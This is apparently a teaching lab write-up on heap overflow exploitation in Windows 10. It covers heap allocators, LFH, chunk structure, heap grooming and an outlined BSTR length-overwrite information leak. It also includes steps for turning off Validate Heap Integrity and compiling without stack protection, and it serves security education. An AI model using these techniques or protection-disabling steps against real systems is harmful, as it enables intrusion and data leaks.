





# Heap Overflow in Windows 10
> [!NOTE] 
> The three heap overflow related exploits performed on example code in this document are created based on this article [[1]](https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/).
___


Unlike in previous exploits we will not start off by attacking the VChat server as we will instead be exploiting a *Heap Overflow* in an example program that is easier to examine and understand. Much like the stack within a program the heap is a space in memory used to store program data. The stack is used for local variables, whenever a function call is made a new stack frame is allocated with the local variables, saved register values, and most importantly the return value of the function on a thread's stack. Unlike the stack, the heap does not contain the return address of a function, and is instead used to store data in regions assigned through the use of functions like [`malloc(...)`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/malloc?view=msvc-170), one of its alternatives or a Windows specific function call. Much like the stack the heap can be overflowed by using unsafe functions such as [`strcpy(...)`](https://man7.org/linux/man-pages/man3/strcpy.3.html) or [`memcpy(...)`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170) with the primary differnce being the dynamic nature of tha allocations and free's not allowing us to guarantee if the region we are overflowing is adjacent to any useful data. We often find the heap being used in programs where dynamic allocation are necessary to preserve allocated data made inside of a function call as the stack frames are cleaned up and deallocated when the function exits whereas the heap data is not deallocated until the programmer make a call to `free(...)`.

## Heap Basics
### Heap Allocation Strategies
The heap is a contiguous region of memory that is separated into a series of *chunks*, when you make a call to the Operating System with [`malloc(...)`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/malloc?view=msvc-170) the entirety or (commonly) a subsection of one chunk will be reserved and it's address returned. The exact behavior of this allocation is determined by the Operating System's heap manager. The heap managers apply certain strategies in order to reduce the fragmentation of the heap that occurs when allocation small blocks occur in larger free blocks. The strategies used vary from Operating System to Operating System and their exact implementation may vary between versions of the same Operating System.

In Windows a common strategy used is the [Low Fragmentation Heap (LFH)](https://learn.microsoft.com/en-us/windows/win32/memory/low-fragmentation-heap), this may also be known as the *Best Fit Allocation Strategy* combined with the *Buddy Allocation Method* . With this strategy the heap or memory manager assigns the chunk that best fits the requested allocation, that is the size of the smallest free block of memory that  fits the request will be used. This reduces fragmentation and preserves larger memory blocks from being whittled down to the point large allocations are not possible by assigning and possibly fragmenting the smaller blocks first. In the case of the Windows Heap Manger, LFH is only applied to heaps that are not fixed in size and were not created with the [HEAP_NO_SERIALIZE](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc#:~:text=this%20function%20call.-,HEAP_NO_SERIALIZE,-0x00000001) flag. It should also be noted if you are using [debugging tools](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/) LFH cannot be enabled and if the allocations are above 16 KB in size LFH will not be used.

Other strategies that exist, but do not appear to be used in the Windows Heap allocation are *First Fit* and *Worst Fit* both of which have benefits and tradeoffs when compared to each other and *Best Fit*. *Worst Fit* is a lot like best fit, except instead of picking the smallest unallocated block that can satisfy the requested allocation we select the largest block, this is to prevent fragmentation that lead to small blocks of unusable sizes that occur with *Best Fit* allocation strategies. *First Fit* addresses runtime concerns as instead of scanning through all possible blocks and picking the best or worst fitting block, it simply picks the first block which can fulfill the requested allocations, the tradeoff being grater fragmentation in the heap.

### Heap Chunks
A Heap chunk consists of a header containing metadata used by the heap manger to provide information about the allocated or free memory chunk it is associated with, and the block of freed or allocated memory itself. It is possible, that by overflowing into adjacent chunks that we can modify or leak the data stored within either the heap metadata or the data in the chunk itself! Once this is done we can gain information about the host process to use in later exploitations, such as shown in writeup [1] where you can extract the `vftable` address to get the image's base address so we can access other datastructures more easily!

Below is an example Heap Bin Header used in a Low Fragmentation Heap from [5]: 


Now we can also examine what the Heap Chunk Structure look like in Windows (This is a Doubly Linked List):


* `F-Link` (Flink): This is a pointer to the next entry on the free list. In the case this is a member of the *FreeLists*/*ListHints* object this is a pointer to the first element on the free list [3].
* `B-Link` (Blink): THis is a pointer the previous entry on the free list. If this is a member of the *FreeLists*/*ListHints* object this is used to determine if the LFH is active, or should be activated acting as a counter before activation and once activated will consist of a pointer to the `_HEAP_BUCKET` used in LFH allocations.
* `Data`: The Chunk's data.

### Heap Allocations
Within Windows there are two Heap allocators, the frontend and backend allocators. The frontend allocator will preform the previously mentioned Low Fragmentation Heap (LFH) allocation or in some older systems it may use a look-aside list. That is the frontend allocator can maintain a [Lookaside List](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/using-lookaside-lists) of free regions in the heap that have been allocated by the backend allocator but are not currently in use for quick allocations without taking a global lock on the heap since we would not be calling into the backend allocator. 


The frontend allocator is used to perform the LFH allocations and this is activated through heuristics based on the allocations observed by the backend allocator. Generally once 18 allocations of the **same size** have been performed the allocation strategy will be switched to the LFH strategy if possible, in the case the LFH allocations have been *activated previously* only 17 allocations are required [1][5]. 


The backend allocator is the default allocator in Windows, this performs operations on and directly manages the heap for a process in the Windows system, allocating free blocks when a `malloc(...)` or equivalent function call is made, deallocating and coalescing (defragmenting) blocks when a `free(...)` call is made, and in the event all blocks within a heap are allocated, or there is no suitable free block the backend allocator will make a systemcall to the kernel in order to allocate additional space on the process's HEAP [5].

### Heap Deallocations 
When a heap has been in use, there will be a series of holes or gaps in the heap segment, these are regions of free memory surrounded by memory that has been allocated to the process. This makes it harder to find and allocate memory to adjacent regions in the heap, because there will often be large gaps between each allocated block. An interesting note discussed in [5] is that LFH allocation does not perform coalescing, or defragmentation which is a common challenge when manipulating the Heap due to it's effects on the Heap making it harder to create a known, exploitable state. When chunks are coalesced this means two adjacent free blocks of memory will be joined together to form one larger block of memory. This means we could turn that single large block of memory into two or more adjacent regions.

## Attacker's Goal
In order to understand why these defenses are necessary, and why they have been implemented in this manner we will provide a quick reminder and overview of how heap overflows work, what the attackers control and some of the reasons an attacker may need to act the way they do.

### Heap Manipulation
The first thing an attacker is required to do, is induce the heap into a vulnerable state. This is commonly referred to as *heap massaging* or *heap grooming*, as most of the time our target heap is not going to be in a known state and the allocations are unlikely to be made in a deterministic manner. This is because if the LFH is triggered the allocated blocks from th buckets are not chosen in a linear manner as mentioned previously, and over the course of a processes lifetime the heap chunks are allocated and freed. Leading to a fragmented heap where free blocks are not necessarily adjacent to one another. This means the first step in an attack that exploits the heap, is taking the heap from an unknown state, to one that likely contains adjacent free chunks that can be overflowed.

This means, the attacker will generally preform a series of allocations in the backend heap allocator. This can be done to fill up the current heap segment and make the system allocate a new heap segment, or to fill the holes between allocated chunks in a segment of the heap.

For example, if we attempted to exploit a heap that is in a *bad* state, with pre-existing allocations from the process that we do not control we may not be able to overflow chunks an induce the behavior we would like. As we cannot predict what the chunk we are overflowing is used for, if it will be freed or even what it may contain. 


This is why you will see real exploits preform a number of allocations, this could be done by using a library in a specific manner, connecting to a server a number of times, or sending specially crafted messages. This is done to put the heap into a state where it is most-likely going to be possible for us to overflow a chunk we control for more reliable exploits - though this not always reliable [13].


> [!NOTE]
> We will be using the above image as a reference, for simplicity we will be assuming the heap allocations a filled from left to right in order as annotate. This may not be the case in a real-world scenario.

In this example, we perform a series of three allocations to fill the current *holes* in the heap. We may not need to fill all the holes but only those of the size we are requesting to make a new heap segment get allocated or to start breaking up a larger free block. For this example, after the first three allocations the next three are *adjacent* as they are being allocated from a large free block being segmented or are allocated in a new heap segment. 

### Heap Overflows
One of the most challenging parts of a Heap Overflow is the Heap management aspect, that is putting the Heap into a viable state for exploitation as for us to overwrite or read meaningful values we are required to have adjacent chunks as discussed previously. Once this has been done, the only challenges you typically face are those involved with Stack Overflow exploits that have been discussed previously. A Heap Overflow due to the location of the Heap, and the somewhat unpredictable nature of it's allocations may not always be used for direct shellcode execution, however even if this is not the case, we can often use the Heap overflow to leak information that would otherwise be contained in the Heap Headers, or the underlying data within.

In [1] for example the `vtable` address is leaked as the datastructures saved to the heap contains a virtual function, whereas [4], and [5] provide details and discussion on previous exploits that involve Heap overflows to leak information. It is also possible for you to overwrite structures and function pointers in order to preform the direct execution of code.
## Pre-Exploitation
The primary requirement that must be met before we perform any testing or exploitation on the heap is to disable the **Validate Heap Integrity** protections in Windows. This is a system wide configuration that we can disable using the steps shown below. It's effects are discussed in the [VChat_Heap_Defense](https://github.com/DaintyJet/VChat_Heap_Defense) writeup.

1. Open Windows Security Options from the search bar

    

2. Open App and Browser Control, scroll down to the Exploit Protection section

    

3. Open the Exploit Protection Setting, this will default to the system settings. You can scroll down to the Validate Heap Integrity Section and set to *Off by Default*

    

### Refresher - Heap Chunks and Allocations
Heap chunks are the basic data structure used in a heap. Once heap space is required e.g a call to `malloc()` is made, the heap manager will allocate chunk for it. A heap chunk consists of user data and metadata. When a heap is freed e.g a call to `free()`, the heap chunk will become a free chunk. All free chunks are managed in the form of a linked list. 

First lets see the see basic allocation strategies used within a modern system [2]:
- Use an available free chunk either fully or fragment it to create an allocated chunk and a smaller free chunk.
- Otherwise, allocate a new  free heap chunk at the top of the heap if there is available space in the heap.
  - If there is no available space the heap manager will ask the kernel to add new memory to the end of the heap, and then allocate a new chunk.
- If all these strategies fail, the allocation can’t be serviced, and `malloc(...)` returns NULL as a failure.


Now let's move to exploring heap allocation more specifically in a **Windows 10** system.

There are two categories of heap allocation in Windows:
- NT heap [2], still used for shared and statically sized heaps.
- Segment heap [3][4], this is the native implementation in current Windows Versions [4].

We will focus on **Segment** heap. Which can be further divided into：
- back-end allocator (by default)
- front-end allocator: Low fragment heap (LFH). To enable LFH, there must be at least 18 heap allocations. Those allocations don't have to be consecutive but they need to be the same size.

## Exploration
First we will run a series of programs in order to understand more about the Windows stack, this follows the same process that has been discussed in [1], and is informed by the information included in [4] and [5] that has been summarized previously in the [Heap Basics](#heap-basics) section. 

### Heap Chunks in WinDBG
We can attach any program that utilizes a heap structure to the WinDBG debugger in Windows. For example we could attach the executable resulting from the [ReuseTest.cpp](./SourceCode/ReuseTest.cpp) source file and examine some of the Heap structures and charicteristices in WinDBG.

Below are a series of command that can be used in WinDBG to gather more information about the Windows heap object or allocation.
* `!heap -s`: List all heaps associated with the current process. From here you can examine general information and gather the heap handles.
* `!heap -h <Handle>`: Print out all non LFH blocks associated with the given handle.
* `!heap -a <Handle>`: Prints out the all the information associated with the heap in addition to the list of blocks attached to the given handle. 
* `!heap -i -h <Handle>`: Prints information about a given heap.
* `!heap -s -a -h <Handle>`: Print all summery information and heap blocks of a heap associated with the given handle
  * Add -c to print content


We can examine a `_HEAP_ENTRY` object that would be located on the heap using the command `dt _HEAP_ENTRY` in [windbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/). In Windows 11 it has the following structure:
```
ntdll!_HEAP_ENTRY
   +0x000 UnpackedEntry    : _HEAP_UNPACKED_ENTRY
   +0x000 Size             : Uint2B
   +0x002 Flags            : UChar
   +0x003 SmallTagIndex    : UChar
   +0x000 SubSegmentCode   : Uint4B
   +0x004 PreviousSize     : Uint2B
   +0x006 SegmentOffset    : UChar
   +0x006 LFHFlags         : UChar
   +0x007 UnusedBytes      : UChar
   +0x000 ExtendedEntry    : _HEAP_EXTENDED_ENTRY
   +0x000 FunctionIndex    : Uint2B
   +0x002 ContextValue     : Uint2B
   +0x000 InterceptorValue : Uint4B
   +0x004 UnusedBytesLength : Uint2B
   +0x006 EntryOffset      : UChar
   +0x007 ExtendedBlockSignature : UChar
   +0x000 Code1            : Uint4B
   +0x004 Code2            : Uint2B
   +0x006 Code3            : UChar
   +0x007 Code4            : UChar
   +0x004 Code234          : Uint4B
   +0x000 AgregateCode     : Uint8B
```
> ![IMPORTANT]
> This structure is 8-bytes in size. And is prepended to all data entries on the heap. This means in order to overwrite the data section of a heap chunk, this needs to be overwritten.
* `Size`: Size of the chunk in terms of the number of blocks including the `_HEAP_ENTRY` that are required to store the data. 
* `Flags`: Flags used to denote the state of the chunk, examples include *Free* and *Busy*.
* `SmallTagIndex`: This stores the checksum of the heap entry, consisting of the XOR'ed value of the first three bytes of the `_HEAP_ENTRY` 
* `SubSegmentCode`: Contains information on the Sub-Section this may be a part of. 
* `PreviousSize`: Previous Size of Chunk.
* `SegmentOffset`: Contains Segment Offset.
* `LFHFlags`: Flags used to control the Low Fragmentation Heap. 
* `UnusedBytes`: Used to store unused bytes. Also used when LFH is activated.
* `FunctionIndex`: Contains management information used by the Windows heap manager. <!--  Supposedly it contains a function pointer/Index so the manager can preform specific operations on the heap-->
* `ContextValue`: Contains management information used by the Windows heap manager.
* `InterceptorValue`: Contains management information used by the Windows heap manager. This is used for additional information and can be used for debugging purposes. 
* `UnusedBytesLength`: Length in terms of the number of blocks that are unused in the current allocation.
* `EntryOffset`: Offset to the Heap Entry.
* `ExtendedBlockSignature`: Byte indicating if the chunk is being managed by the LFH.

> [!NOTE]
> There exist some sites containing older [C Source Code](https://www.nirsoft.net/kernel_struct/vista/HEAP_ENTRY.html) of the Windows `_HEAP_ENTRY`, though they are older based on the WinDBG output it is still mostly accurate. You can explore additional heap structures discussed in [3].


### LFH
Using our basic understanding of heap allocations through the backend or the frontend allocator, we can use a modified program from [1] to see how each affects our goal of allocating two or more adjacent chunks in the heap memory space. The original program (with some comments added) is located in [LFHTest-H.cpp](./SourceCode/LFHTest-H.cpp), and the modified code listed below is located in [LFHTest-P.cpp](./SourceCode/LFHTest-P.cpp):

```cpp
// Sourced and slightly modified from https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/

// Windows Functionality
#include <Windows.h>
// C Standard Input and Output Library
#include <stdio.h>

#define CHUNK_SIZE 0x300

int main(int args, char** argv) {
    int i;
    LPVOID chunk;

    // Store Previous Chunk
    LPVOID pchunk;

    // Get a default process HEAP handle
    HANDLE defaultHeap = GetProcessHeap();

    // Preform 18 allocations of the same size (<16Kb)
    for (i = 0; i < 18; i++) {
        if(i > 0)
            pchunk = chunk;

        // Allocate objects onto the heap
        chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
        printf("[%d] Chunk is at: 0x%p", i, chunk);

        if(i > 0)
            printf(", with a difference of 0x%lx between addresses\n", ((long)chunk - (long)pchunk));
        else
            printf("\n");
    }

    // Preform LFH allocations
    // We have likely triggered the heuristics
    for (i = 0; i < 5; i++) {
        if(i > 0)
            pchunk = chunk;

        // Allocate objects onto the heap
        chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
        printf("[%d] New chunk in LFH: 0x%p", i ,chunk);

        if(i > 0)
            printf(", with a difference of 0x%lx between addresses\n", ((long)chunk - (long)pchunk));
        else
            printf("\n");
    }

    // Pause! (User input will be needed before the process exits)
    system("PAUSE");
    return 0;
}
```
This program is used to show the gaps between heap chunk allocations when using the Backend Allocator for the first 18 chunks we allocate, and for the first 5 chunks that are allocated with the Frontend Allocator and LFH.

1. Using Notepad++, or your preferred text Editor add the [LFHTest-P.cpp](./SourceCode/LFHTest-P.cpp) onto the Windows System.

    

2. Open a Visual Studio 2022 Development shell (Powershell or CMD Prompt), you can do this through the Start Menu as shown below.

    

3. Navigate to the folder [LFHTest-P.cpp](./SourceCode/LFHTest-P.cpp) is located in and compile the source code into an executable using the [MSVC Compiler](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170). The command used is shown below:
    ```
    $ cl LFHTest-P.cpp
    ```
    * This will compiled and link the `LFHTest-P.cpp` file and produce an executable `LFHTest-P.exe`
4. Run the `LFHTest-P.exe` file and observe the output as shown below. 

    

     * We can see that during the first 18 allocations there are some inconsistencies between the 1st and 2nd allocations in addition to the fourth allocation, but after the 5th and until the 16th allocation the difference between the addresses of the chunks is consistent, this in addition to their size being `0x308` and the allocated chunk size being `0x300` indicates that the chunks are most likely adjacent to one another.
     * We can also see that the LFH chunk allocations are not allocated consistently, as the difference between their starting addresses vary quite a bit even though the size is constantly `0x300`. This indicates that the chunks allocated with LFH in Windows 10/11 are not constantly adjacent even when the blocks are allocated one after another. 
    * *Note*: If we were to print the non-hex values this would still be the case as hex value of `0x308` is equal to 776, which matches up with the output we would see if the output value were to be `%ld` instead of `%x`. 

> [!NOTE]
> With regards to the LFH allocations not being adjacent this is a conscious choice made by the Windows Operation System develoupers as the free blocks in the *buckets* of the LFH are allocated allocated in a random order.

This means when we are designing an exploit, we should aim to allocate less than 18 blocks to prevent the LFH from being triggered, and the exploit should utilize those allocations that occur between the 5th and 16th block.

### Chunk Reuse
As is discussed in [1], the Windows Heap Manager is know to reuse freed chunks, that is if we were to free an allocated chunk and later make a call into the Heap Manager to allocate a chunk of space that is of the same or lesser size than the previously freed space, it is likely that the Hap manager will allocate a chunk from within the previously freed region.

First we need to see if the Heap Manager in Windows 10 will reliably reuse chunks that have been allocated and freed. We can use the program [ReuseTest.cpp](./SourceCode/ReuseTest.cpp), the source code is shown below.

```cpp
// Sourced from https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/

// Windows Functionality
#include <Windows.h>
// C Standard Input and Output Library
#include <stdio.h>

// Defined Chunk Size 16^2 * 3 = 768 Bytes
#define CHUNK_SIZE 0x300

int main(int args, char** argv) {
    int i;
    LPVOID chunk;
    // Get a default process HEAP handle
    HANDLE defaultHeap = GetProcessHeap();

    // Trigger LFH
    for (i = 0; i < 18; i++) {
        // Preform 18 allocations on the heap
        HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    }

    // Trigger LFH Heuristics, allocate in LFH
    chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    printf("New chunk in LFH : 0x%08x\n", chunk);

    // Free a block of memory, not sure of why HEAP_NO_SERIALIZE is used
    // If using the process heap it should not be used. 
    BOOL result = HeapFree(defaultHeap, HEAP_NO_SERIALIZE, chunk);
    printf("HeapFree returns %d\n", result);

    // Allocate a new chunk, is it a reused chunk?
    chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    printf("Another new chunk : 0x%08x\n", chunk);

    // Pause
    system("PAUSE");
    return 0;
}
```
If the address of the first allocation matches the second allocation after the free occurred then there is chunk reuse. Otherwise chunk reuse has not occurred on your system.

1. Using Notepad++, or your preferred text Editor add the [LFHTest-P.cpp](./SourceCode/LFHTest-P.cpp) onto the Windows System.

    

2. Open a Visual Studio 2022 Development shell (Powershell or CMD Prompt), you can do this through the Start Menu as shown below.

    

3. Navigate to the folder [ReuseTest.cpp](./SourceCode/ReuseTest.cpp) is located in and compile the source code into an executable using the [MSVC Compiler](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170). The command used is shown below:
    ```
    $ cl ReuseTest.cpp
    ```
    * This will compiled and link the `ReuseTest.cpp` file and produce an executable `ReuseTest.exe`
4. Run the `ReuseTest.exe` file and observe the output as shown below.

    

     * We can see that the allocations are not placed in the same block. They are separate blocks!

However it is possible to prod the Heap Manager into allocating into that freed block within a specific region by allocating and de-allocating specific blocks that we have fragmented with larger allocations, and have coalesced once we free an adjacent block to ensure they are adjacent!

That is if we have the following heap Structure with 3 adjacent allocated blocks:


Once we Free a chunk for example the second allocated chunk we will have the following structure:


Then after some number of allocations, we will eventually preform an allocation in the recently freed block, this may not be a perfect fit so the block will fragment as shown below:


> [!NOTE]
>  Note that we allocate an BSTR object since this can be manipulated to perform a Buffer Overread, leaking information since the BSTR object contains a size value in the structure. By modifying the size value we can read into the adjacent chunk!

This means in order to have an adjacent allocation we will need to leverage the coalescing behavior of the Windows Heap Manager that defragment the memory by merging adjacent free blocks by freeing the third (end) allocated block as shown below.


This means when we perform some number of allocations, we will eventually write the object we wish to leak data from into the newly coalesced adjacent block.


Even if the heap chunks are not reliably reused, they will eventually be filled back in with a value. 

## Example Program: Proof Of Concept:
We can now use a program like [POC.cpp](./SourceCode/Exploit/POC.cpp) to verify that we can induce the Windows heap manger into allocating two blocks of adjacent memory that wqe can use to leak information about the running process. We can use [Immunity Debugger](https://www.immunityinc.com/products/debugger/) or [WinDBG](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/#install-windbg-directly) to examine the Heap and confirm that we have successfully allocated the adjacent blocks on the heap.

**Immunity Debugger**:
1. Create the [POC.cpp](./SourceCode/Exploit/POC.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Compile the POC program using the [MSVC Compiler](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170) (You need to open the Developer Powershell) with the command shown below.
    ```
    $ cl /GS- /Z7 .\POC.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler
    * `/GS-`: Compile with Buffer Overflow Protections disabled
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * This will compiled and link the `POC.cpp` file and produce an executable `POC.exe`.
3. Run the POC program and observe the output, do not stop it's execution. 

    

4. Attach Immunity Debugger to the POC process, and view the Heap.
     1. Click File and Attach.

        

     2. Find and Select the `POC.exe` process.

        

     3. Using an address outputted by the program Jump to the Heap.
       1. Use the Black Button (`Go To Address in Disassembler`) jump to a location in the program.

        

       2. Right click the location we jumped to and select `Follow in Dump`.

        

     4. Observe the Stack and the Adjacent Heap Segments.
        1. View the Delineation between the Heap Segment 5 and 6:

            

        2. View the Delineation between the Heap Segment 6 and 7:

            

**WinDBG Debugger**:
1. Create the [POC.cpp](./SourceCode/Exploit/POC.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    

2. Compile the POC program using the [MSVC Compiler](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170) (You need to open the Developer Powershell) with the command shown below.
    ```
    $ cl /GS- /Z7 .\POC.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler
    * `/GS-`: Compile with Buffer Overflow Protections disabled
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
    * This will compiled and link the `POC.cpp` file and produce an executable `POC.exe`.
3. Run the POC program and observe the output, do not stop it's execution. 

    

4. Attach WinDBG to the POC process, and view the Heap.
    1. Click File and Attach, then select the `POC.exe` process.

        

    2. Using an address outputted by the program Jump to the Heap.
       1. Open the Memory view.

        

    3. Fill in the Address search bar with the value from the program's output.

        

    3. Observe the Stack and the Adjacent Heap Segments.
        1. View the Delineation between the Heap Segment 5 and 6:

            

        2. View the Delineation between the Heap Segment 6 and 7:

            

## Example Program: Exploit 1, Information leak (Overwrite the size prefix of a BSTR)
This is the same process as the exploit shown in [1]. The following section provides an explanation of the attack similar to the goals discussed in the previous [Attacker Goals](#attackers-goal) section.

First, as was done in the [Proof of Concept](#proof-of-concept) section we want to induce the stack into having the following structure. 
```
[attacker controlled chunk1][attacker controlled chunk2][attacker controlled chunk3]
```
After chunk2 is freed, a [BSTR](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/automat/bstr) object which is a basic/binary string with the structure `(Length-Prefix-Value)(String)(Null-Terminator)` is allocated to the place of chunk2 Leading to the following heap Structure. 
```
[attacker controlled chunk1][(Length-Prefix-Value)(String)(Null-Terminator)][attacker controlled chunk3]
```

Then chunk3 is freed and a vector of object pointers is put into the chunk adjacent to chunk2. As the objects contain Virtual Functions the objects allocated on the heap will contain addresses to the Virtual Table. We should have the following heap structure

```
[attacker controlled chunk1][attacker controlled chunk: (Length-Prefix-Value)(String)(Null-Terminator)][attacker controlled chunk: Vector-of-Pointers]
```

Once this is done a large *evil* string is copied into chunk1 in order to overflow the first four bytes of chunk2, which based on the structure of the BSTR object will be the size prefix of the string it contains, allowing us to overwrite it with a larger size. This means the next time the BSTR is used, more data will be read then expected leaking information from chunk3 including the object pointer. 

